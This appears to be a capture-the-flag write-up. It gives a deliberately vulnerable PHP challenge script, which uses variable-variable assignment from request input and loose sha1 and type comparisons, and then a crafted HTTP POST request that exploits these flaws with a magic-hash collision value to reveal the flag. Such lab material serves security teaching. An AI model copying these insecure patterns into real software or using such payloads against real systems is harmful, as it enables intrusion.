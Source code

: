 ```php
}
foreach ($_GET as $key => $value)
    $$key = $$value;   
foreach ($_POST as $key => $value)
    $$key = $value;
if ($_POST["flag"] !== $flag ){
    die($_403);
}
else{
    $message = json_decode($_POST['json']);
    parse_str($message->token);
    if($a[0] != "aaroZmOk" && sha1($a[0]) == sha1('aaroZmOk')){
        if($message->theKey == 'a' && $message->theKey !== "a"){
            echo "This is your flag : ". $flag . "<br>";
            die($_200);
        }
    }
    else{
        echo "get out hacker !!!"."<br>";
    }
}
------------------------WriteUp-------------------------------
```
```html
POST /upctf/vulb.php?_200=flag HTTP/1.1
Host: www.test.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 62

flag=abc&a[0]=aa3OFF9m&json={"theKey":0e0,"token":"flag=_200"}
```